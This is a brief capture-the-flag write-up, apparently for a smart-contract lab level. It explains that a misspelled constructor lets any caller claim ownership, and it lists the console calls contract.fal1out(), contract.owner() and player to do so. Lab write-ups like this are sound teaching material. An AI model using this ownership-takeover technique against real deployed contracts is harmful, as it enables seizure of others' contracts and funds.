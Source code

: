 In this contract the contructor is simply misspelled due to developer error, therfore I can call it myself and gain ownership as ```msg.sender```

### Steps

Call the function.
```contract.fal1out()```

Check ownership has transfered to me.
```contract.owner()```

Check my address to confirm.
```player```